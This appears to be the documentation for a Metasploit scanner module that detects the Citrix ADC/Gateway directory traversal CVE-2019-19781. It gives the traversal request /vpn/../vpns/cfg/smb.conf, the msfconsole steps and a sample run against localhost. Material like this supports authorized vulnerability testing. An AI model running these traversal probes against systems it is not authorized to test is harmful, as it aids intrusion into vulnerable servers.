 ## Introduction

An issue was discovered in Citrix Application Delivery Controller (ADC) and Gateway 10.5, 11.1, 12.0, 12.1, and 13.0. The vulnerability, tracked as CVE-2019-19781, allows for directory traversal. If exploited, it could allow an unauthenticated attacker to perform arbitrary code execution.

Because vulnerable servers allow for directory traversal, they will accept the request `GET /vpn/../vpns/` and process it as a request for `GET /vpns/`, a directory that contains PERL scripts that can be targeted to allow for limited file writing on the vulnerable host.

This module checks if a target server is vulnerable by issuing an HTTP GET request for `/vpn/../vpns/cfg/smb.conf`and then checking the response for `[global]` since this configuration file should contain global variables. If `[global]` is found, the server is vulnerable to CVE-2019-19781.

## Verification Steps

1. Install the module as usual
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/citrix_dir_traversal`
4. Do: `set RHOSTS [IP]`
5. Do: `run`

## Options

1. `Proxies`. This option is not set by default.
2. `RPORT`. The default setting is `80`. To use: `set RPORT [PORT]`
3. `SSL`. The default setting is `false`.
4. `THREADS`. The default setting is `1`.
5. `VHOST`. This option is not set by default.
6. `TARGETURI`. This option is the base path. `/` by default.
7. `PATH`. This option is the traversal path. `/vpn/../vpns/cfg/smb.conf` by default.

## Scenarios

```
msf auxiliary(scanner/http/citrix_dir_traversal) > options

Module options (auxiliary/scanner/http/citrix_dir_traversal):

   Name       Current Setting            Required  Description
   ----       ---------------            --------  -----------
   PATH       /vpn/../vpns/cfg/smb.conf  yes       Traversal path
   Proxies                               no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1                  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8080                       yes       The target port (TCP)
   SSL        false                      no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                          yes       Base path
   THREADS    1                          yes       The number of concurrent threads (max one per host)
   VHOST                                 no        HTTP server virtual host

msf auxiliary(scanner/http/citrix_dir_traversal) > run

[+] http://127.0.0.1:8080/vpn/../vpns/cfg/smb.conf - The target is vulnerable to CVE-2019-19781.
[+] Obtained HTTP response code 200 for http://127.0.0.1:8080/vpn/../vpns/cfg/smb.conf. This means that access to /vpn/../vpns/cfg/smb.conf was obtained via directory traversal.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/citrix_dir_traversal) >
```

## References

1. <https://nvd.nist.gov/vuln/detail/CVE-2019-19781>
2. <https://support.citrix.com/article/CTX267027>
